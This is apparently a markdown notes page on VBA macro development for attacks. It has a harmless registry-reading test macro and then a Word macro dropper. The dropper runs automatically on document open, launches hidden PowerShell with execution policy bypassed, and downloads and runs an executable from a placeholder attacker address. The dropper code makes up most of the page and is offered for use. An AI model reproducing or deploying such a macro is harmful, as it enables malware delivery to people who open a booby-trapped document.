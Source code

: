 ## VBA Macro Development

#### Initial Test
- VBA script in word to retrive ProductVersion
  
```
Sub Document_Open()
  reg
End Sub

Sub AutoOpen()
  reg
End Sub

Sub reg()
  Dim wsh as Object
  set wsh = CreateObject("Wscript.shell")

  Dim RegKey as String
  set RegKey = "\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows Nt\CurrentVersion"
  MsgBox "Product Version: " & wsh.RegRead(regKey & "\ProductName")
  
End Sub
```

#### Powershell script With Dropper

```
Sub AutoOpen()
  dropper
End Sub

Sub Document_Open()
  dropper
End Sub

Sub dropper()
  Dim url as String
  Dim scriptPath as String
  url = "http://$ip:$port/file.exe"
  scriptPath = "Invoke-WebRequest -Uri """ & url & """ -OutFile ""C:\Users\Admin\file.exe"";" & vbCrLf & _
  "Start-Process -FilePath ""C:\Users\Admin\file.exe"""

  Shell "Powershell.exe -ExecutionPolicy Bypass -WindowStyle Hidden -Command """ & scriptPath & """"
```
